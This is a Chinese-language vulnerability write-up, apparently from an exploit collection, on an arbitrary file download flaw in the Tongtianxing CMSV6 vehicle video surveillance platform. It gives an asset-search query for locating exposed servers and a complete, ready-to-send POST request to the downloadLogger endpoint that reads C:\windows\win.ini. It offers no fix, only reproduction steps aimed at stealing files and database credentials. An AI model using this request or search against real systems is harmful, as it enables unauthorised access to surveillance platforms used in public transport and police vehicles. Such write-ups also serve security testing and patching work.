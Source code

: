 # 通天星CMSV6车载视频监控平台  downloadLogger任意文件下载

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台存在任意文件下载漏洞，攻击者可通过此漏洞下载敏感文件信息，获取数据库账号密码，从而为下一步攻击做准备。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/X3Ip5GtyEvMvrLCS/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-243948.png)

# 四、漏洞复现
```plain
POST /808gps/logger/downloadLogger.action HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5666.197 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="113", "Chromium";v="113", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded

fileName=C:\windows\win.ini
```

![1700148030526-73b31a17-3065-420a-ba37-b0399d1f568a.png](./img/X3Ip5GtyEvMvrLCS/1700148030526-73b31a17-3065-420a-ba37-b0399d1f568a-272668.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cvnplow5gdgbsaka>